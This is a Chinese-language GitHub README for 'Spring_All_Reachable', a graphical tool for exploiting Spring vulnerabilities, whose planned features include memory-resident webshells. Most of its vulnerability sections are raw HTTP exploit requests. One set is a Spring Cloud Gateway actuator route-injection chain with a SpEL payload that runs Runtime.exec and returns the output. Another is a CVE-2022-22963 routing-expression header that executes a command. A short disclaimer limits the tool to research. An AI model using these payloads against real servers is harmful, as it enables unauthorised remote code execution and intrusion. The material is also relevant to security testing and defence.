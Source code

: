 <h1 align="center" >Spring_All_Reachable</h1>
<h3 align="center" >一款针对Spring漏洞框架进行快速利用的图形化工具</h3>
 <p align="center">
    <a href="https://github.com/savior-only/Spring_All_Reachable"></a>
    <a href="https://github.com/savior-only/Spring_All_Reachable"><img alt="Spring_All_Reachable" src="https://img.shields.io/badge/Spring_All_Reachable-green"></a>
    <a href="https://github.com/savior-only/Spring_All_Reachable"><img alt="Forks" src="https://img.shields.io/github/forks/savior-only/Spring_All_Reachable"></a>
     <a href="https://github.com/savior-only/Spring_All_Reachable"><img alt="Release" src="https://img.shields.io/github/release/savior-only/Spring_All_Reachable.svg"></a>
  <a href="https://github.comsavior-only/Spring_All_Reachable"><img alt="Stars" src="https://img.shields.io/github/stars/savior-only/Spring_All_Reachable.svg?style=social&label=Stars"></a>
     <a href="https://github.com/savior-only"><img alt="Follower" src="https://img.shields.io/github/followers/savior-only.svg?style=social&label=Follow"></a>
     <a href="https://github.com/savior-only"><img alt="Visitor" src="https://visitor-badge.laobi.icu/badge?page_id=savior-only.Spring_All_Reachable"></a>
	</p>





# 📝 TODO

* Spring Core RCE
* 支持更多类型内存马
* 支持内存马密码修改

........



# :clapper:使用方法

### Spring Cloud Gateway命令执行（Spring_All_Reachable）

#### 漏洞描述

Spring Cloud Gateway存在远程代码执行漏洞，该漏洞是发生在Spring Cloud Gateway应用程序的Actuator端点，其在启用、公开和不安全的情 况下容易受到代码注入的攻击。攻击者可利用该漏洞通过恶意创建允许在远程主机上执行任意远程请求。


#### 漏洞影响

​	VMWare Spring Cloud GateWay 3.1.0  
​	VMWare Spring Cloud GateWay >=3.0.0，<=3.0.6  
​	VMWare Spring Cloud GateWay <3.0.0

#### 漏洞poc

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

#### 工具使用

![image-20230601131042060](./assets/image-20230601131042060.png)

![image-20230601131127171](./assets/image-20230601131127171.png)

![image-20230601134110151](./assets/image-20230601134110151.png)





### Spring Cloud Function SpEL 远程代码执行 (CVE-2022-22963)

#### 漏洞描述

Spring Cloud Function 是Spring cloud中的serverless框架。

Spring Cloud Function 中的 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成 Spel 表达式注入漏洞。

攻击者可通过该漏洞执行任意代码。

#### 漏洞影响

org.springframework.cloud:spring-cloud-function-context（影响版本：3.0.0.RELEASE~3.2.2）

#### 漏洞poc

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

#### 工具使用

![image-20230601130120697](./assets/image-20230601130120697.png)

![image-20230601130234458](./assets/image-20230601130234458.png)





# :book: 参考项目

https://starchart.cc/0x727/SpringBootExploit

https://github.com/whwlsfb/Spring_All_Reachable-godzilla-memshell





# :b:免责声明

​	此工具仅作为网络安全攻防研究交流，请使用者遵照网络安全法合理使用！ 如果使用者使用该工具出现非法攻击等违法行为，与本作者无关！



![as](https://starchart.cc/savior-only/Spring_All_Reachable.svg)
